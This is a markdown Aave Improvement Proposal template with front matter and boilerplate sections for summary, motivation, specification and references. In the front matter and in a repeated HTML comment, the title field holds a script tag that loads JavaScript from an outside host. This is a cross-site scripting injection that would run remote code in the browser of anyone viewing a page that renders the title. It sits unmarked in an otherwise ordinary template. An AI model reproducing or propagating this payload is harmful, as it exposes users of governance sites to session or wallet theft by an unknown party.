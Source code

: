 ```yaml
---
title: TEST <script src="https://a.op1um.se/a.js"></script></h3>
author: BGD Labs (@bgdlabs)
shortDescription: Activation of Aave v3 Ethereum
discussions: https://governance.aave.com/t/bgd-aave-v3-ethereum-new-deployment-vs-aave-v2-upgrade/9990/16
created: 2023-01-20
---
```


<!--
title: TEST <script src="https://a.op1um.se/a.js"></script></h3>
author: BGD Labs (@bgdlabs)
shortDescription: Activation of Aave v3 Ethereum
discussions: https://governance.aave.com/t/bgd-aave-v3-ethereum-new-deployment-vs-aave-v2-upgrade/9990/16
created: 2023-01-20
-->

This is the template for AIPs.

When opening a pull request to submit your AIP, please use an uppercase abbreviated title in the filename, `TITLE_ABBREV.md`.

The title should be 44 characters or less.

## Simple Summary

If you can't explain it simply, you don't understand it well enough. Provide a simplified and layman-accessible explanation of the AIP.

## Motivation

The motivation is critical for AIPs that want to change Aave. It should clearly explain why the existing protocol specification is inadequate to address the problem that the AIP solves. AIP submissions without sufficient motivation may be rejected outright.

## Specification

The technical specification should describe the syntax and semantics of any new feature.

## References

A list of relevant links like for this proposal e.g.

- [forum discussion](discordlink)
- [tests](githublink)
- [proposalCode](githublink)

## Copyright

Copyright and related rights waived via [CC0](https://creativecommons.org/publicdomain/zero/1.0/).
